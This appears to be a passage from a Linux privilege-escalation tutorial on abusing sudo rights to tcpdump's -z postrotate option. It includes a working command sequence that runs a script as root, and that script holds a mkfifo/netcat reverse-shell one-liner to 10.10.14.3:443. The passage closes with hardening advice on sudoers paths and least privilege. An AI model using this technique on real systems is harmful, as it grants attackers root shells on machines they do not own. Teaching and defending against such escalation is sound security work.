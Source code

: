 ```shell
man tcpdump

<SNIP> 
-z postrotate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

```shell
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

```shell
cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

```shell
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

- Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).|
- Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.